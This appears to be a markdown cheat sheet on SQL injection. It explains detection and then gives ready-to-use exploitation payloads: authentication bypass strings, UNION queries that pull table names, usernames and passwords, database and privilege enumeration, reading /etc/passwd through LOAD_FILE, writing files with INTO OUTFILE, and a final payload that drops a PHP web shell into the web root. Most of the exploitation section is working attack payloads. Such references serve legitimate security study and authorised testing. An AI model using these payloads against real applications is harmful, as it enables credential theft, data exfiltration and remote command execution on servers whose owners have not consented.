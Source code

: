 # SQL Injection

- SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with
 the queries that an application makes to its database.
- Attackers can exploit SQLi to access and read sensitive information from the database, such as 
 user credentials, personal data, and financial records.
- In certain scenarios, SQLi can be leveraged to gain shell access to the server, enabling the
 attacker to execute arbitrary commands, escalate privileges, and potentially take full control
 of the server.
- It can occur in different parts of query:  
  1. `UPDATE`: Within value or WHERE clause  
  2. `INSERT`: Within values  
  3. `SELECT`: Within table name, column name, and ORDER BY clause.  

## Detection

- The single quote character `'` is often used in SQLi attacks. Look for errors or anomalies
 triggered by it.
- Look for differences in application responses when injecting some SQL-specific syntax.
- Boolean conditions such as `OR 1=1` and `OR 1=2`, which help identify successful injections
 based on different responses.
- Payloads designed to trigger time delays when executed within a SQL query, such as `SLEEP()` 
or `WAITFOR DELAY`. Monitor any delay in the application response.
- Out-of-band (OAST) payloads trigger a network interaction when executed within a SQL query. 
Monitor for any external interactions, such as DNS requests.

```shell
# Basic payload that always returns true
' OR '1'='1
" OR "1"="1
' OR '1'='1' #
" OR "1"="1" #
# Injection with a comment to ignore the rest of the query
' OR 1=1--
" OR 1=1--
```

## Exploitation

### 1. Retrieving Hidden Data
SQL injections can be used to reveal hidden or sensitive data that would otherwise not be
 visible to the user.

```shell
# Lets say the query is:
# SELECT * FROM products WHERE category = 'Gifts' AND released = 1
Gifts'--
# This payload comment the `AND released = 1` and all products
# will be visible even if they are not released.
```

### 2. Subverting Application Logic
SQL injections can also bypass authentication and authorization mechanisms, giving attackers 
control over the application logic.

```python
# Also check those above in detection section
admin' --
admin" --
```

### 3. UNION Injection
Union-based SQL injection allows attackers to combine the results of multiple queries,
 which can be used to extract data from different tables.

```python
# Check the number of columns in the table 
# (adjust the number to test for error responses)
' ORDER BY 1-- 
' UNION SELECT NULL--
# Attempts to find the number of columns in the query result
# as they must be same for both queries
' UNION SELECT 'a',NULL,NULL,NULL--
# Retrieves table names in result
' UNION select 1,database(),2,3-- -
' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
' UNION SELECT table_name, TABLE_SCHEMA, NULL, NULL FROM information_schema.tables--
' UNION SELECT column_name, NULL, NULL, NULL FROM information_schema.columns WHERE table_name='table_name'--
' UNION SELECT version(), NULL, NULL, NULL--
# Retrieves usernames and passwords in a single result
' UNION SELECT username || '~' || password FROM users--
```

### 4. Database Enumeration
```shell
# Use these with UNION queries if needed
# MySQL Fingerprinting
# These commands will through error in other DBs
SELECT @@version
SELECT POW(1,1) # expected output is 1
SELECT SLEEP(5)

# Getting information about Database users and tables
SELECT * FROM my_database.users;
SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;
```

### 5. Reading Files
- In MySQL, the DB user must have the `FILE` privilege to load a file's content into a table
 and then dump data from that table and read it.

```shell
# Use these with UNION queries if needed
# Getting DB user information
SELECT USER()
SELECT CURRENT_USER()
SELECT user from mysql.user
# checking if we have super user privileges
SELECT super_priv FROM mysql.user
# Dumping other privileges user may have
SELECT grantee, privilege_type FROM information_schema.user_privileges
```

- If you have `FILE` privilege, you can use this query to load file:

```shell
SELECT LOAD_FILE('/etc/passwd');
```

### 6. Writing Files
- Modern DBMSes disable file-write by default and require certain privileges for
DataBase Administrators to write files.
- To be able to write files to the back-end server using a MySQL database, we require three things:
1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable `not enabled`
3. Write access to the location we want to write to on the server

```python
Note: The secure_file_priv variable is used to determine where
to read/write files from.
- An empty value lets us read files from the entire file system. 
- If a certain directory is set, we can only read from the folder 
specified by the variable.
- NULL means we cannot read/write from any directory.

- MariaDB has this variable set to empty by default
- MySQL uses /var/lib/mysql-files as the default folder.
```

```shell
SHOW VARIABLES LIKE 'secure_file_priv';
# If using UNION injection
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

Writing data into files:

```shell
# Writing tables data into file
SELECT * from users INTO OUTFILE 'users.txt';
# Writing strings directly to file
SELECT 'this is a file' INTO OUTFILE 'file.txt';
# Note: Use 'FROM_BASE64("base64_data")' function in order to
# be able to write long files, including binary data.
```
```python
Note: To write a web shell, we must know the base web directory for the web server.
One way to find it is to use load_file to read the server configuration
- Apache's configuration found at /etc/apache2/apache2.conf
- Nginx's configuration at /etc/nginx/nginx.conf
- IIS configuration at %WinDir%\System32\Inetsrv\Config\ApplicationHost.config
- Use wordlists: 
  linux: seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
  windows: seclists/Discovery/Web-Content/default-web-root-directory-windows.txt
- If none of the above works, we can use server errors displayed to us and try to
 find the web directory that way.
```

- Writing Web Shell:

```shell
' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```